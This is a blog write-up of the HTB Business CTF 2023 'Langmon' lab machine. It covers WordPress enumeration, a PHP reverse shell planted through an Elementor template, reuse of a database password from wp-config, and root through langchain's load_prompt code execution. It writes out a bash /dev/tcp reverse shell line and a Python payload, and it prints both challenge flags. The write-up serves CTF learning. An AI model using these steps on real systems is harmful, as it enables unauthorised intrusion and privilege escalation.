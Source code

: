 ```yaml
---
layout: post
title:  "HTB Business CTF 2023 - Langmon writeup"
date:   2023-07-17 00:00:00 +0300
categories: HTB_Business_CTF_2023 CTF FullPwn HTB
summary: Writeup for the Langmon challenge from HTB's Business CTF from 2023. This challenge involved exploiting a wordpress exploit and a langmon exploit.
---
```



Langmon was a challenge at the HTB Business CTF 2023 from the 'FullPwn' category.  
It involved a VM structured like a usual HTB machine with a user flag and a root flag.  
Its difficulty level was 'Very Easy' & it was mostly based on finding simple vulnerabilities and exploiting them.  

### Recon & identifying the service

After spawning the target, I only got an IP address and no specific port so the first step was to run a port scan & see what services are listening.  
There were 2 open ports:
- 22 - a ssh service
- 80 - a web app

The SSH service doesn't show any hint that it could be abused.  
So, I started with the web server.

### Web app

On port 80, I found a web page.

![The main web page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/web_page.png){: .center-image}

After inspecting it, I noticed that it is built using Wordpress. I also found the wp-login page.  

![The login page]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/wp_login.png){: .center-image}

Running wpscan on this doesn't return anything interesting, so I continued by manually exploring this app.  

By accessing /wp-json/wp/v2/users, I could see that the only user is 'admin'. This might be useful if for a brute-force attack later (maybe?).  

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/wp_users.png){: .center-image}

I also found the sitemap for this web application.

![Wordpress users]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/sitemap.png){: .center-image}

The most interesting part here is the registration page. I went there and tried to create a new account.  

![Registration]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/register.png){: .center-image}

After creating a new account, I was able to access the wordpress dashboard (as a regular user).  
However, I was unable to post anything without the admin reviewing it first.  

It looks like I could also create templates, not just posts.  
However, those also have to be admin-approved.
![Creating templates]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/templates_01.png){: .center-image}

While looking at the options available for a regular user when creating templates, I noticed that I can use the Elementor plugin in order to make it easier to create templates and pages.

![Using Elementor plugin]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/templates_02.png){: .center-image}

Also, that plugin allows for HTML / PHP blocks to be placed inside the pages or templates.  

![Inserting PHP]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/templates_03.png){: .center-image}

So ... what if I put a shell in there

![Preparing the reverse shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/shell_setup.png){: .center-image}

I pasted the contents of [this](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/php/php-reverse-shell.php) php reverse shell in there and clicked 'Apply'.  
It looks like my code gets executed after clicking 'Apply'. I could see that the shell was executed by checking on my listener.  

![First shell obtained]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/shell.png){: .center-image}

Now I have a shell as www-data.  
First, let's take a look at the wp-config file. It's always a good thing to check after obtaining access to a wordpress server. There might be some useful information in there.  

![Wordpress credentials]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/wp_credentials.png){: .center-image}

The database password is in there. It might be useful for connecting to the DB.  
Or, it might be re-used in other places.  

Let's check out what are the users available on this server.

![Users on the server]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/users.png){: .center-image}

Only 'developer' has a homedir, so that's probably the user that I want to login as.  
Let's check if the DB password isn't reused as the user's password too.  

![Logging in as developer]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/user_login.png){: .center-image}

And it works. I could also get the user flag for this machine: **HTB{4lw4y5_upd473_y0ur_plu61n5}**

![User flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/user_flag.png){: .center-image}

I had the user's password so I checked if I could use sudo for anything (`sudo -l`).  

![Running sudo]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/sudo.png){: .center-image}

The 'developer' user can run /opt/prompt_loader.py as root.  

prompt_loader.py is a python script that imports [langchain](https://python.langchain.com/docs/get_started/introduction.html) and then calls load_prompt on a file specified by the user.  
The load_prompt method is known to be vulnerable and can be used for arbitrary code execution. More details on that can be seen [here](https://github.com/hwchase17/langchain/issues/4849).  

First, I took the PoC from github issue and tried using that as the script's input.
![Running the PoC]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/running_poc.png){: .center-image}

It works and it runs as root.  

Now I have to change the payload and use it to get a shell.  
I'm not sure if this script could spawn an interactive shell, so I tried with a reverse shell.  
A bash reverse shell (`bash -i >& /dev/tcp/10.10.14.182/1337 0>&1`) wouldn't work (maybe I forgot to escape something?) so I put it in a file and ran the file instead.

So my final payloads are:

/tmp/shell.sh
{% highlight bash %}
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.182/1337 0>&1
{% endhighlight %}

/tmp/prompt.py
{% highlight python %}
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('id')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
{% endhighlight %}

![Preparing the payload]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/payload.png){: .center-image}

And after running this (`sudo /opt/prompt_loader.py /tmp/prompt.py`) I could see a connection on my listener.

![Getting a root shell]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/root_shell.png){: .center-image}

And now I had a root shell on this machine.

![Getting the root flag]({{site.baseurl}}/assets/img/HTB_Business_CTF_2023/Langmon/root_flag.png){: .center-image}

And I got the root flag for this machine: **HTB{7h3_m4ch1n35_5p34k_w3_h34r}**